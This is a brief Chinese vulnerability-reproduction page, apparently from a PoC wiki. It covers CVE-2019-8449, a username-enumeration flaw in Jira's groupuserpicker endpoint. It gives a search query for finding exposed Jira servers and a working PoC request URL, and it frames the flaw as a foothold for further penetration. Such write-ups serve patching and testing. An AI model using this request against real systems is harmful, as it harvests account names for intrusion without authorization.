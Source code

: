 # Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

<a-checkbox checked>Atlassian Jira  <8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430124430820.png)

验证POC

```java
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![img](/assets/PeiQi-Wiki/img/1651293805295-29a3241f-8a24-4b82-8733-9a680679b79a.png)

当用户不存在时

![img](/assets/PeiQi-Wiki/img/1651293830754-ba6faf0c-0874-49bd-8ccf-1ae7cdb0581d.png)